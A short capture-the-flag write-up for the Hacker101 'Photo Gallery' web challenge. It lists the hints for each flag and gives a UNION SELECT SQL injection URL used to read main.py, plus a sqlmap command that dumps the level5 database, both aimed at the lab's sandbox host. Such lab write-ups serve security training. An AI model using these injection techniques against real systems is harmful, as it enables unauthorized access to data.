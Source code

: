 # Photo Gallery

- Platform: Hacker101 <br>
- Category: Web  <br>
- Difficulty: Medium  <br>

## Flag0 
Hints:
- Consider how you might build this system yourself. What would the query for fetch look like?
- Take a few minutes to consider the state of the union
- This application runs on the uwsgi-nginx-flask-docker image

<img width="700" height="390" alt="image" src="https://github.com/user-attachments/assets/7c7c9fe6-56d1-4343-be88-48c8fade7951" /> <br><br>

```d1ae6902fc23e9b5dbf9e2b75d730fcb.ctf.hacker101.com/fetch?id=4 UNION SELECT 'main.py'``` <br><br>
<img width="1917" height="762" alt="image" src="https://github.com/user-attachments/assets/9d13568d-ffdc-4136-bbf4-48efbc5fa625" />



## Flag1 
Hints:
- I never trust a kitten I can't see
- Or a query whose results I can't see, for that matter

The hint 'query' pointed to a SQL injection vulnerability. The previous location where  ```Flag0``` was placed revealed a database named ```level5```, ```sqlmap``` was then used to enumerate that database: <br>
```sqlmap -u https://d1ae6902fc23e9b5dbf9e2b75d730fcb.ctf.hacker101.com/fetch?id=1 --dump -D level5 --threads=5``` <br><br>
<img width="938" height="283" alt="image" src="https://github.com/user-attachments/assets/52e35e44-cf5c-4599-8b85-ba0a96c56971" /> <br><br>

The flag was revealed after enumeration. <br><br>
<img width="760" height="282" alt="image" src="https://github.com/user-attachments/assets/5972a0a7-9667-4b22-98c8-7e43cae025c1" /> <br><br>


## Flag2 
Hints:
- That method of finding the size of an album seems suspicious
- Stacked queries rarely work. But when they do, make absolutely sure that you're committed
- Be aware of your environment
